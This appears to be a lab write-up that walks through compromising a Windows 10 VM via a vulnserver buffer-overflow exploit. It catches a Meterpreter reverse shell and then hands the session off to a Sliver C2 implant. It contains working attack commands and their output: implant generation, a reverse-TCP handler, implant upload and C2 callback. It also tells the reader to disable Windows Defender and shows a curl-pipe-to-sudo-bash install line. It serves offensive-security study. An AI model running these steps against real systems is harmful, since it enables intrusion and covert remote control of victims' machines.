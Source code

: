 # snowpirate.github.io
# Objective

Demonstrate Attacker A compromising a Victim(1) with a Meterpreter implant(1) and interacting with Victim using the Metasploit C2 Framework.  Then coordinate with Attacker B, which uses the Sliver C2 Framework, to acquire Attacker B’s Sliver implant(2).  Finally, execute Attacker B’s implant(2), transitioning Victim(1) to Attacker B’s Sliver C2 Framework.

# Prereqs: Set up Lab Environment

## VM #1: Attacker A: Kali VM (for Metasploit C2)
- Recommended system requirements:
	- 2 GB of RAM
	- 20 GB of disk space

## VM #2: ​Attacker B: ParrotOS VM (for Sliver C2)
- Recommended system requirements:
	- 2 GHz dual-core processor or better
	- 4 GB system memory
	- 25 GB of free hard drive space
- Install Sliver (https://github.com/BishopFox/sliver)
	- Note: The one liner on the website will wait for you to pass the user password, because: `sudo`.
	- Install Sliver
		- `curl https://sliver.sh/install|sudo bash`

## VM #3: Windows 10 VM (For Exploit Development/dual use as Victim PC)
- Disable Windows Defender


# Procedure

## i. Prepare the C2 machines

On the ParrotOS VM, generate a Sliver payload, and transfer the binary to the Kali VM.  Finally, start the Sliver C2 listener to be ready to catch the Sliver callback from the Victim PC.


```sh
# From the ParrotOS VM, start the Sliver C2 framework:

┌─[bob@parrot]─[~]
└──╼ $sliver
Connecting to localhost:31337 ...

.------..------..------..------..------..------.
|S.--. ||L.--. ||I.--. ||V.--. ||E.--. ||R.--. |
| :/\: || :/\: || (\/) || :(): || (\/) || :(): |
| :\/: || (__) || :\/: || ()() || :\/: || ()() |
| '--'S|| '--'L|| '--'I|| '--'V|| '--'E|| '--'R|
`------'`------'`------'`------'`------'`------'

All hackers gain assist
[*] Server v1.5.41 - f2a3915c79b31ab31c0c2f0428bbd53d9e93c54b
[*] Welcome to the sliver shell, please type 'help' for options

[*] Check for updates with the 'update' command

sliver >

```




```sh
# generate Sliver payload for the Windows victim:
sliver > generate --http <parrotOS ip>:5309 --save ~


[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 1m1s
[*] Implant saved to /home/bob/AVERAGE_SHAMPOO.exe


# Verify the exe location on the ParrotOS VM:
┌─[bob@parrot]─[~]
└──╼ $pwd
/home/bob

$ll
total 17M
-rwx------ 1 bob bob 17M Feb 27 15:04 AVERAGE_SHAMPOO.exe
drwxr-xr-x 1 bob bob  28 Jan 21 14:13 Desktop
drwxr-xr-x 1 bob bob   0 Feb 25 15:13 Documents


# From the Kali VM, acquire the Sliver implant from the Sliver VM
┌──(bob㉿sneaker)-[~/lab_test]
└─$ scp bob@<parrotOS ip>:/home/bob/AVERAGE_SHAMPOO.exe .


# From the ParrotOS VM, start the Sliver listener
sliver > http --lport 5309
[*] Starting HTTP :5309 listener ...
[*] Successfully started job #1


```




## 1. Establish a foothold

Compromise the Victim PC using the previously developed exploit that overflows a buffer in the `vulnserver.exe` program, resulting in Remote Code Execution (RCE) on the Victim PC.  This exploit executes shellcode on the Victim containing the Meterpreter staged implant which causes the Victim to return an interactive session to Attacker A allowing control of the Victim PC via the Metasploit C2 Framework.




Ensure that the vulnerable server is running on Victim PC, and verify that Windows Defender is still disabled.




From the Kali VM, start a Metasploit listener to catch the Meterpreter callback, then exploit the Victim PC.


```sh
# Setup the Metasploit listener
┌──(bob㉿sneaker)-[~/lab_test]
└─$ sudo msfconsole -q -x "use exploit/multi/handler;\set PAYLOAD
windows/meterpreter/reverse_tcp;
\set LHOST 192.168.218.128;\set LPORT 4455;\run"
[sudo] password for bob: 
[*] Using configured payload generic/shell_reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
LHOST => 192.168.218.128
LPORT => 4455
[*] Started reverse TCP handler on 192.168.218.128:4455
```


```sh
# Exploit the Victim PC
┌──(bob㉿sneaker)-[~/lab_test]
└─$ python exploit.py 

[+]Sending evil buffer...

```


```sh
# Observe the first callback, opening a Meterpreter session with the Victim PC:
[*] Sending stage (175686 bytes) to 192.168.218.132
[*] Meterpreter session 1 opened (192.168.218.128:4455 -> 192.168.218.132:49944) 
at 2024-02-28 13:04:07 -0800

meterpreter > 
```

## 2. Transition the Victim to the Sliver C2 Framework


```sh
# Upload the Sliver binary
meterpreter > upload /home/bob/lab_test/AVERAGE_SHAMPOO.exe .

# Notice how much time this takes to upload (recall it is a 17 MB exe file)

[*] Uploading  : /home/bob/lab_test/AVERAGE_SHAMPOO.exe -> .\AVERAGE_SHAMPOO.exe
[*] Completed  : /home/bob/lab_test/AVERAGE_SHAMPOO.exe -> .\AVERAGE_SHAMPOO.exe
meterpreter > 
```

With an interactive Meterpreter session and the Sliver implant on the Victim PC, now we simply execute the Sliver implant and catch the callback on the ParrotOS VM:

```sh

# Observe the callback
# From the ParrotOS VM Sliver listener:


[*] Starting HTTP :5309 listener ...
[*] Successfully started job #1

[*] Session 90046956 AVERAGE_SHAMPOO - 192.168.218.132:50542 (DESKTOP-5RU61SI)
- windows/amd64 - Tue, 27 Feb 2024 15:07:25 EST

sliver > use 90046956-2ea1-4bc3-be91-5a785aa19054

sliver (AVERAGE_SHAMPOO) >

```
